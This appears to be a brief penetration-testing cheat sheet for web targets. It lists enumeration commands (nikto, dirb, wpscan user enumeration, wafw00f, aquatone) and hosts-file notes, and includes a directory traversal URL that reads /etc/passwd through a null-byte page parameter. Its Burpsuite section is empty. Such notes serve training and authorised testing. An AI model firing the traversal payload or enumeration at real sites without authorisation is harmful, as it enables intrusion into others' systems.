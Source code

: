 ## HTTP/HTTPS Pen Testing

### Enumeration
```
nikto -host thedomain.com

dirb http://10.11.1.140
```
---

### To add IP's to your host file
Add the following to the hosts file `10.11.1.140 domainname.com`

Linux is `/etc/hosts`

Windows is `C:\windows\system32\drivers\etc\hosts`

---

### Directory Traversal Vulnerability
```
# To attempt to view the /etc/passwd file
http://host/index.php?page=./../../../../../etc/passwd%00
```
---

### Wordpress
```
# Enumerate users on wordpress site
wpscan targetsite.com --enumerate u
```
---
### Spidering with Burpsuite
```

```
---
### Check for web firewalls with wafw00f
```
wafw00f ip
```

### Check if domain exists with aquatone
```
apt install chromium
wget https://github.com/michenriksen/aquatone/releases/download/v1.7.0/aquatone_linux_amd64_1.7.0.zip
unzip aquatone_linux_amd64_1.7.0.zip
mv aquatone /usr/local/bin/

# Place all of your domains in a file called host
# aquatone will check if exists, and take screenshot
cat host | aquatone
```

